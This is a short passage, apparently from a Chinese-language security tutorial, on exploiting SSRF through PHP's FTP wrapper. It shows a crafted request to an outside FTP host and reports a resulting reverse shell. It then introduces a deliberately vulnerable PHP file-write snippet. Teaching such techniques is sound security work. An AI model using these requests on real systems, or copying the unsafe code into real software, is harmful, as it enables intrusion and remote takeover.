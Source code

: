 最后，构造如下请求，触发攻击：

```plain
/ssrf.php?viewFile=ftp://aaa@192.168.43.247:23/123
```

[![](assets/1698897074-bb157a1a93d29095ec84acbbe9cb830f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134744-9298ae28-b2e5-1.png)

成功反弹shell：

[![](assets/1698897074-8c6a4df95d06d0484c1c8c5ff7000999.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134744-92ee0e9a-b2e5-1.png)

假设有以下代码：

```plain
<?php
file_put_contents($_GET['file'], $_GET['data']);
```
